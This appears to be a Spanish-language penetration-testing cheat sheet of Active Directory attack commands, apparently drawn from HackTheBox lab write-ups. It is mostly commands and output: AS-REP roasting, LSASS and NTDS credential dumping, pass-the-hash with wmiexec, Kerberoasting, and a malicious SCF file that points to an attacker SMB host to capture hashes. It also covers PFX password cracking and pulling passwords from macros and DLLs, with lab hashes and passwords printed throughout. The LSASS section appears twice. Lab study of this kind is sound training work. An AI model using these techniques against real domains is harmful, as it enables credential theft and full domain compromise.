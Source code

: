 # Metodología

## ASPRepRoast Attack
```null
GetNPUsers.py blackfield.local/ -no-pass -usersfile users.txt -dc-ip 10.10.10.192
```

## Decrypt LSASS
```null
pypykatz lsa minidump lsass.DMP

INFO:root:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
[...]
	== MSV ==
		Username: svc_backup
		Domain: BLACKFIELD
		LM: NA
		NT: 9658d1d1dcd9250115e2205d9f48400d
		SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
[...]
luid 153705
	== MSV ==
		Username: Administrator
		Domain: BLACKFIELD
		LM: NA
		NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
		SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368
```

## Dumpear NTDS

### Backup del System
```null
reg save HKLM\SYSTEM system.bak
```

### Backup del NTDS

#### Creación de unidad lógica temporal

**Fichero.txt**
```null
set context persistent nowriters
add volume c: alias pwn
create
expose %pwn% z:
```

#### Procesación con DiskShadow
```null
diskshadow /s fichero.txt
```

#### Copia de RoboCopy
```null
robocopy /b z:\windows\ntds . ntds.bak
```

#### Dumpeo hashes NT,LM
```null
impacket-secretsdump -ntds ntds.dit -system system local
Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

[*] Target system bootKey: 0x73d83e56de8961ca9f243e1a49638393
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Searching for pekList, be patient
[*] PEK # 0 found and decrypted: 35640a3fd5111b93cc50e3b4e255ff8c
[*] Reading and decrypting hashes from ntds.dit 
Administrator:500:aad3b435b51404eeaad3b435b51404ee:184fb5e5178480be64824d4cd53b99ee:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DC01$:1000:aad3b435b51404eeaad3b435b51404ee:65557f7ad03ac340a7eb12b9462f80d6:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:d3c02561bba6ee4ad6cfd024ec8fda5d:::
audit2020:1103:aad3b435b51404eeaad3b435b51404ee:c95ac94a048e7c29ac4b4320d7c9d3b5:::
support:1104:aad3b435b51404eeaad3b435b51404ee:cead107bf11ebc28b3e6e90cde6de212:::
```

### PassTheHash

```null
wmiexec.py -k -no-pass administrator@dc.intelligence.htb
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[*] SMBv3.0 dialect used
[!] Launching semi-interactive shell - Careful what you execute
[!] Press help for extra shell commands
C:\>whoami
intelligence\administrator

C:\>
```

### Kerberoasting Attack

```null
GetUserSPNs.py search.htb/hope.sharp:'IsolationIsKey?' -request
```

## SCF Malicioso

```null
[Shell]
Command=2
IconFile=\\10.10.16.6\shared\pwned.ico
[Taskbar]
Command=ToggleDesktop
```

## Microsoft Active Directory Certificate Services

### Generar certificados

```null
openssl req -newkey rsa:2048 -nodes -keyout amanda.key -out amanda.csr
```

## Tráfico de Red

### Obtener clave SSL para importar en WireShark

```null
hflaccus@carpediem:/$ find \-name \*key 2>/dev/null | grep backdrop
./etc/ssl/certs/backdrop.carpediem.htb.key
```

```null
hflaccus@carpediem:/etc/ssl/certs$ ls | grep backdrop
backdrop.carpediem.htb.crt
backdrop.carpediem.htb.key
```

## Desencriptar LSASS

```null
pypykatz lsa minidump lsass.DMP

INFO:root:Parsing file lsass.DMP
FILE: ======== lsass.DMP =======
[...]
	== MSV ==
		Username: svc_backup
		Domain: BLACKFIELD
		LM: NA
		NT: 9658d1d1dcd9250115e2205d9f48400d
		SHA1: 463c13a9a31fc3252c68ba0a44f0221626a33e5c
[...]
luid 153705
	== MSV ==
		Username: Administrator
		Domain: BLACKFIELD
		LM: NA
		NT: 7f1e4ff8c6a8e6b6fcae2d9c0572cd62
		SHA1: db5c89a961644f0978b4b69a4d2a2239d7886368
```

## Obtener macros de documento

```null
olevba -c CurrencyVolumeReport.xlsm
olevba 0.60.1 on Python 3.10.9 - http://decalage.info/python/oletools
===============================================================================
FILE: CurrencyVolumeReport.xlsm
Type: OpenXML
WARNING  For now, VBA stomping cannot be detected for files in memory
-------------------------------------------------------------------------------
VBA MACRO ThisWorkbook.cls 
in file: xl/vbaProject.bin - OLE stream: 'VBA/ThisWorkbook'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 

' macro to pull data for client volume reports
'
' further testing required

Private Sub Connect()

Dim conn As ADODB.Connection
Dim rs As ADODB.Recordset

Set conn = New ADODB.Connection
conn.ConnectionString = "Driver={SQL Server};Server=QUERIER;Trusted_Connection=no;Database=volume;Uid=reporting;Pwd=PcwTWTHRwryjc$c6"
conn.ConnectionTimeout = 10
conn.Open

If conn.State = adStateOpen Then

  ' MsgBox "connection successful"
 
  'Set rs = conn.Execute("SELECT * @@version;")
  Set rs = conn.Execute("SELECT * FROM volume;")
  Sheets(1).Range("A1").CopyFromRecordset rs
  rs.Close

End If

End Sub
-------------------------------------------------------------------------------
VBA MACRO Sheet1.cls 
in file: xl/vbaProject.bin - OLE stream: 'VBA/Sheet1'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - 
(empty macro)
```

### Crear diccionario de usuarios a partir de nombres

```null
python3 spindrift.py /home/rubbx/Desktop/HTB/Machines/Search/users --format {first}.{last} > bruteusers
python3 spindrift.py /home/rubbx/Desktop/HTB/Machines/Search/users --format {f}.{last} >> bruteusers
python3 spindrift.py /home/rubbx/Desktop/HTB/Machines/Search/users --format {f}{last} >> bruteusers
python3 spindrift.py /home/rubbx/Desktop/HTB/Machines/Search/users --format {first}{l} >> bruteusers
python3 spindrift.py /home/rubbx/Desktop/HTB/Machines/Search/users --format {first}.{l} >> bruteusers
```

### Certificado PFX

#### Crack hash

```null
pfx2john staff.pfx > hash

john -w:/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (pfx, (.pfx, .p12) [PKCS#12 PBE (SHA1/SHA2) 256/256 AVX2 8x])
Cost 1 (iteration count) is 2000 for all loaded hashes
Cost 2 (mac-type [1:SHA1 224:SHA224 256:SHA256 384:SHA384 512:SHA512]) is 1 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
misspissy        (staff.pfx)     
1g 0:00:01:21 DONE (2023-02-04 17:09) 0.01227g/s 67319p/s 67319c/s 67319C/s misssnail..missnona16
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

#### Importar al navegador

Permite tener acceso a recursos que de primera devuelven un código de estado 403, por ejemplo

![image](https://rubbxalc.github.io/writeups/assets/img/Search-htb/17.png)

## Strings | Obtener más información con un encoder

```null
strings -e l MultimasterAPI.dll | grep password
server=localhost;database=Hub_DB;uid=finder;password=D3veL0pM3nT!;
```